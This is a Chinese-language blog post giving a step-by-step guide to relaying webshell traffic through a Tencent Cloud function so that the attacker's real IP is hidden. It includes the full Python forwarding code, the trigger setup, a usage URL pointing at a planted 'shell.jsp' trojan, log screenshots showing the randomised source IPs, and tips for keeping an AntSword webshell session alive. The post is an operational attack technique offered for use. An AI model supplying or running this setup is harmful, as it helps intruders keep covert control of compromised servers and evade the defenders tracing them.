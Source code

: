 # 利用云函数隐藏Webshell真实IP



> 腾讯云自带CDN，我们可以通过腾讯云函数来转发我们的Webshell请求，从而达到隐藏真实IP的目的

## 创建云函数
找到云函数，使用自定义模板
![20220613192232](https://image.geoer.cn/20220613192232.png)

![20220613192325](https://image.geoer.cn/20220613192325.png)

把下面的代码复制到index.py中
```python
# -*- coding: utf8 -*-
import requests
import json
def geturl(urlstr):
    jurlstr = json.dumps(urlstr)
    dict_url = json.loads(jurlstr)
    return dict_url['u']
def main_handler(event, context):
    url = geturl(event['queryString'])
    postdata = event['body']
    headers=event['headers']
    resp=requests.post(url,data=postdata,headers=headers,verify=False)
    response={
        "isBase64Encoded": False,
        "statusCode": 200,
        "headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
        "body": resp.text
    }
    return response

```
> 注意，运行环境要选Ppython3.6，不然3.7的话得手动上传第三方库(感觉我的同事，不然我一直在坑里出不来呢)


![20220613192414](https://image.geoer.cn/20220613192414.png)


部署成功后，点击触发管理->创建触发器：
![20220613192526](https://image.geoer.cn/20220613192526.png)

这里需要选择API网关触发：
![20220613192618](https://image.geoer.cn/20220613192618.png)


创建完成后，下图可以看到我们的访问路径：
![20220613192747](https://image.geoer.cn/20220613192747.png)


## 使用方法
然后在我们的访问路径后面增加`?u=webshell一句话木马`的地址即可
例如：
```text
https://sxxxxxxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/helloworld-11?u=http://xxxx/shell.jsp

```



使用云函数之前，可以看到我的真实IP：
我这里使用`tail -f xxx.log`来监控的日志，也可以wireshark抓包
访问：`http://10.80.20.57:8080/test/shell.jsp`
![20220614112844](https://image.geoer.cn/20220614112844.png)
![20220614112807](https://image.geoer.cn/20220614112807.png)

使用云函数之后，
访问：`https://serxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/forwarded?u=http://xxx/shell.jsp`
![20220614132635](https://image.geoer.cn/20220614132635.png)

然后我们查看日志：显示的是腾讯云函数CDN的地址

![20220614132911](https://image.geoer.cn/20220614132911.png)
可以看到IP地址是随机的：
![20220614132852](https://image.geoer.cn/20220614132852.png)

成功达到目的



## 补充
防止webshell的掉线行为，修改一下超时设置，可以配置为60s  
最好在【函数管理】 -> 【函数配置】里面，最好把执行超时时间设置成和蚁剑里面的超时时间一样或者更长
![20220613193021](https://image.geoer.cn/20220613193021.png)









---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fwebshell%E7%9C%9F%E5%AE%9Eip/  

